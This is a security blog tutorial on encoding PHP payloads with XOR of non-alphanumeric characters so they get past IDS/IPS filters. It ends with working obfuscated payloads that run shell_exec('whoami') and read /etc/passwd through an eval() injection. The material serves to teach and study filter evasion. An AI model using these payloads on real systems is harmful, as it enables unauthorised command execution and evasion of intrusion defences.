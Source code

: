 ```yaml
---
title: Bypass with PHP non-alpha encoder 
layout: post
author: mucomplex
description: This useful when you encounter IDS/IPS prevention which need to bypass PHP code execution
---
```


In this tutorial, I will cover PHP non-alpha encoder. I will show some basic concept first before we going deeper which may cause brain damage. muehehe <br>

A 	| B 	| 	XOR A&B
--------|-------|-------------------
0       | 0     |          0
1       | 0     |          1
0       | 1     |          1
1       | 1     |          0

so if 'A' xor 'A' should be 0. as example below: <br>
![Image 1](/images/PHP_Non-Alpha/Selection_001.png)<br><br>

now lets try 'A' xor '1' : <br>
![Image 2](/images/PHP_Non-Alpha/Selection_002.png)<br><br>

Wait what?.. how it can be 'p' ? .. what's the logic there?. Okay, okay.. I'm going back to basic.<br>
![Image 3](/images/PHP_Non-Alpha/ascii.gif)<br><br>

By opening online calculator <br>
![Image 4](/images/PHP_Non-Alpha/Selection_003.png)<br><br>
In hex, 'A' is '0x41' and '1' is '0x31' , it is not really 0x01. So after xor the value, it get '0x70' which may be the alphabet of 'p' in ascii table <br>

Okay now, what is non-alpha?<br>
**Non-alphanumeric characters that are considered to be symbols are also treated as white space.** <br>
The question is?.. can non-alpha be constructing to become strings?.. answer: Yes!! <br>

Okay, let's take a look again. in hex table, I will use hex 0x20 to 0x40 and 0x7B until 0x7E, so it is not in alphabet range. so with this combination, I try to construct a string <br>
![Image 5](/images/PHP_Non-Alpha/Selection_004.png)<br><br>

You have the basic concept now. Lets *fire-up* our PHP-cli (I will use php7.x).As we know variable declaration in most programming language accept a-z, A-Z,0-9 and underscore.
I will use underscore as my variable.<br>
First command I use to declare my variables '$\_;'.It will contain undefine variable, which we may assume as 'Null' or '0'.<br>
2nd, I try to increase the '$\_;' by append '++' at the end ($\_++;).Result will be numeric '1' <br>
3rd, by concate string and number, php will take first parameter as its type. ''.$\_ is string '1' . I try to xor again with 'A', it gives 'p'. I hope it is clear. <br>
![Image 6](/images/PHP_Non-Alpha/Selection_005.png)<br><br>

So let construct our string. but lazy?.. okay I made some tool for you, and study the code.<br>
[PHP\_alphanumeric\_encoder](https://github.com/mucomplex/PHP_alphanumeric_encoder) <br>

What is python argumentparser? and how to declare it?<br>
**The argparse module makes it easy to write user-friendly command-line interfaces. The program defines what arguments it requires, and argparse will figure out how to parse those out of sys.argv. The argparse module also automatically generates help and usage messages and issues errors when users give the program invalid arguments.** <br>

![Image 7](/images/PHP_Non-Alpha/Selection_006.png)<br><br>

Then I initialize php\_encoder class with 3 arguments which is payload,method and badchar. I also create symbolic\_list by using string.digits + string.printable[62:94] . <br>
Finally I create list of 'xor' and 'or' non-alpha to be store. <br>

![Image 8](/images/PHP_Non-Alpha/Selection_007.png)<br><br>

Below is function replacing badchar with ''. <br>
![Image 9](/images/PHP_Non-Alpha/Selection_008.png)<br><br>
php\_encoder is check: <br>
1. check if successfully encode all payload character.
2. iteration of xor non-apha and non-alpha.
3. if payload contain non-alpha.It directly pickup the non-alpha character.
4. else it will 'xor' and check if match, it append to the list.
![Image 10](/images/PHP_Non-Alpha/Selection_009.png)<br><br>

if you look at the code, there is another logic that I use. which is 'or' encoder. you may figure out this your self. <br>
Let test the code: <br>
![Image 11](/images/PHP_Non-Alpha/Selection_010.png)<br><br>
![Image 12](/images/PHP_Non-Alpha/Selection_011.png)<br><br>

echo $\_\_($\_);  it actually same as echo shell\_exec('whoami'). <br>

Hands-on time!!! , below code is vulnerable to php-nonalpha encoder,which limit us only to write number and some symbols. <br>
![Image 13](/images/PHP_Non-Alpha/Selection_012.png)<br><br>
With same payload we craft before.Try to exploit eval function.<br>
($\_ = ('7'^'@').('7'^'_').('/'^'@').(':'^'[').('@'^'-').('['^'2')) is define for whoami <br>
($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')) is define for shell_exec<br>
($\_\_($\_)) is equal to shell\_exec('whoami')<br><br>
eval('print '.($\_ = ('7'^'@').('7'^'\_').('/'^'@').(':'^'[').('@'^'-').('['^'2')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)).";"); <br>
I bracket for each variables define and execute it by calling ($\_\_($\_)) <br>
![Image 14](/images/PHP_Non-Alpha/Selection_013.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_014.png)<br><br>


try with other payload 'cat /etc/password' and arrange our payload back. <br>

($\_ = ('8'^'[').('!'^'@').(')'^']').('['^'{')."/".(']'^'8').(']'^')').(']'^'>')."/".('^'^'.').('^'^'?').('\_'^',').('3'^'@').('7'^'@').('9'^']')).($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($\_\_($\_)) <br>

![Image 14](/images/PHP_Non-Alpha/Selection_015.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_016.png)<br><br>

